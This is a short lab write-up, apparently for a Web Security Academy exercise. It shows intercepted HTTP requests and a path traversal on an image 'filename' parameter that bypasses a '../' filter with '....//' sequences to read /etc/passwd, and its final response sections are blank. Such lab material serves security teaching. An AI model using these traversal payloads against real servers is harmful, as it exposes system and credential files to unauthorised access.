

---

- **Author:** sonyahack1
- **Date:** 01.05.2025

---

## Intercepting the request

```html

GET /product?productId=1 HTTP/2
Host: 0ac400d4034ad782846572dd00f400be.web-security-academy.net
Cookie: session=*************************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ac400d4034ad782846572dd00f400be.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> The vulnerability relates to the display of product images

> change request to **"image"**

```html

GET /image HTTP/2

```
> Response:

```html

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 30

"Missing parameter 'filename'"

```

> I need to read the passwd file via **'filename'** parameter but common Path Traversal doesn't work:

```html

GET /image?filename=../../../../etc/passwd HTTP/2

```
> Response:

```html

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"No such file"

```

> The application has protection against normal **Path Traversal** (Relative or Absolute).
> This means that before reading any file on the server, the system checks its full path in the request
> and removes lines like "../../", "..\..\" etc. from it. The vulnerability of such filtering is that
> it works according to a direct template - **' ../ '** and the server may not recognize encoding, additional slashes,
> unicode, byte masking etc. for such traversals.

> I change the request and add **additional slashes** and **dots** to the Path Traversal:

```html

GET /image?filename=....//....//....//etc/passwd HTTP/2

```
> Response:



> Lab solved:


 
